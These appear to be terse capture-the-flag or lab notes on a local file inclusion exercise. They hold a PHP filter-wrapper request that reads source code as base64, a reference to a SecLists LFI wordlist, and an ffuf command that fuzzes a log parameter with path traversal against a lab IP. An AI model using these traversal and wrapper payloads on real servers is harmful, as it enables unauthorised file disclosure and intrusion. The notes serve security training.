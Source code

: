 
https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt

```
http://83.136.253.171:44707/index.php?page=php://filter/read=convert.base64-encode/resource=index
```

```php
<?php 
	// echo '<li><a href="ilf_admin/index.php">Admin</a></li>'; 
?>
```

![[Pasted image 20241011131524.png]]

```bash
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -u http://83.136.253.171:4  
4707/ilf_admin/index.php?log=../../../../../FUZZ -fs 2046
```

